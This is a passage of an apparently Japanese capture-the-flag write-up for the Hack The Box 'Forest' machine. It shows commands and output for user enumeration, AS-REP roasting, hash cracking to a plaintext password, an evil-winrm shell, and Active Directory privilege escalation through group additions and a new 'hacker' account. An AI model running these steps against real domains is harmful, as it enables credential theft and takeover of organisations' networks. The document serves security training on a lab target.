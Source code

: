 # Recon

```
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- 10.10.10.161
...
Not shown: 65511 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
53/tcp    open  domain       syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-10-14 04:40:40Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49684/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49706/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49960/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
...
```
`rpcclient`をパスワード無しで実行する：

```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```
（この情報は`enum4linux`で出力される`enum4linux -a -M -l -d 10.10.10.161`）

上記の結果より以下のようにユーザリストを作る：


```
┌──(shoebill㉿shoebill)-[~/Forest_10.10.10.161]
└─$ cat users.txt
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

# initial shell

joeアカウントがいるか確認しようと`kerbrute`を走らせたら、ユーザsvc-alfrescoにAS-REP Roastingの攻撃ができることが判明：

```
┌──(shoebill㉿shoebill)-[~/Forest_10.10.10.161]
└─$ kerbrute passwordspray -v --user-as-pass --dc 10.10.10.161 -d htb.local users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/14/22 - Ronnie Flathers @ropnop

2022/10/14 13:59:08 >  Using KDC(s):
2022/10/14 13:59:08 >  	10.10.10.161:88

2022/10/14 13:59:09 >  [!] svc-alfresco@htb.local:svc-alfresco - Got AS-REP (no pre-auth) but couldn't decrypt - bad password
2022/10/14 13:59:09 >  [!] santi@htb.local:santi - Invalid password
2022/10/14 13:59:09 >  [!] mark@htb.local:mark - Invalid password
...
```
そこでimpacketのGetNPUsers.pyを実行しsvc-alfrescoのハッシュを得る：
```
┌──(shoebill㉿shoebill)-[~/Forest_10.10.10.161]
└─$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb.local/svc-alfresco
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:dd570d12f7405838482c909d700d329c$bec2201781f29c5b9c4aa1c0b15bfeadb1f3cd2bbd99696f123a046388796ee0384d83e588c5331f9aed840b7d98f55126b5ab763df5c375cc9142198df04dcc967a62c94946ab10afa47c3b0296b15e9bbf4c5c2c976b1d7eba2f2a76cac589e307362c758abbf41a603270af48de36f0080be00304397105141362a2fd9f9f455658042a53830d55b2136dc1ffcb323cbec0d9f94a5cd13b9e033a80cfc954900ea74b9fd0ced11d0b73ae03bc6e18912501f9f7abe8bcaaeb1014875a3da34d7f50130c50edd461883f1191c45a0d9af68c5c6f1af828c87f25e7777f85cc591745ecbb47
```
これをtgt-hash.txtというファイル名で保存し、hashcatでクラックする：

```
┌──(shoebill㉿shoebill)-[~/Forest_10.10.10.161]
└─$ hashcat -a 0 -m 18200 tgt-hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting
...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:dd5...b47:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
...
```
これよりsvc-alfrescoのパスワードはs3rviceと判明。

このクリデンシャルを使って`evil-winrm`を実行しsvc-alfrescoのシェルを得る：

```

┌──(shoebill㉿shoebill)-[~/Forest_10.10.10.161]
└─$ evil-winrm --ip 10.10.10.161 -u svc-alfresco -p s3rvice
...
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```

# Privesc

BloodHoundでターゲットのActive Directoryを解析する。

ターゲット上にSharpHound.exeを送って実行：

```
\SharpHound.exe -c all --nozip
```
これにより生成されたjsonファイルたちをKaliに送り、bloodhoundにアップロードする。

![hound-1](https://user-images.githubusercontent.com/85237728/195855775-8ca06ad9-7f03-4d61-90ba-08122b673882.png)

svc-alfrescoが属すグループの一つACCOUNT OPERATORS(Account Operatorsのメンバは、ユーザ、ローカルグループ、グローバルグループのアカウントなどほとんどの種類のアカウントを作成および変更できる)に注目する。

そして、その先をみると、EXCHANGE WINDOWS PERMISSIONSのメンバはドメインhtb.localにてWriteDaclの権限をもってる。すなわち、DACL (Discretionary Access Control List)の編集が可能。

![houn-2](https://user-images.githubusercontent.com/85237728/195856484-6212a1d5-9df1-45d4-ae2d-90681f5b7df0.png)

WriteDaclのabuseとして、ユーザにDCSyncの権限を与えるという攻撃が考えられる。

ACCOUNT OPERATORSのメンバはEXCHANGE WINDOWS PERMISSIONSグループに対してGenericAll（なんでもできる）なので、EXCHANGE WINDOWS PERMISSIONSに新規ユーザを追加する。
そしてその追加した新規ユーザにDCSync権限を与える。

新規ユーザを作成する前に、まずsvc-alfresco自身をExcahnge Windows Permissionsグループに入れる：

```
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" svc-alfresco /add
The command completed successfully.
```

追加された事を確認：

```
*Evil-WinRM* PS C:\Users\svc-alfresco> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
...
HTB\Exchange Windows Permissions           Group            S-1-5-21-3072663084-364016917-1341370565-1121 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
...
```

（"The command completed successfully."と表示されたのに追加されていない場合は、一旦^Cで切断して再度接続し直す）

次に、hackerという新規ユーザをpasswordというパスワードで作成し、Exchange Windows Permissionsグループに追加する：

```
*Evil-WinRM* PS C:\Users\svc-alfresco> net user hacker password /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco> net group "Exchange Windows Permissions" hacker /add
The command completed successfully.
```


